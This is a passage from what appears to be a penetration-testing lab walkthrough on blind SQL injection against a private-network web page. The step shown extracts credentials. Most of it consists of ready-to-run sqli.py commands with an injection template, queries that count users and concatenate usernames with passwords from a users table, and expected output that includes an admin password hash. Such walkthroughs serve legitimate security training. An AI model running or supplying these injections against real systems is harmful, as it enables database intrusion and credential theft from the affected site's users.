 **Write down**: `Columns = id, username, password, email, created_at`

***

## Step 9: Extract Usernames and Passwords

### What You're Doing

Extracting actual credential data from the `users` table.

### Count Users

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT COUNT(*) FROM users)" \
  --maxlen 8
```

**Expected Output:**

```
3
```

**What this means**: 3 user accounts exist.

***

### Extract Credentials (Combined)

Use `CONCAT` to get username:password in one query.

**User 1:**

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT CONCAT(username,':',password) FROM users LIMIT 1 OFFSET 0)" \
  --maxlen 128
```

**Expected Output:**

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
```


***
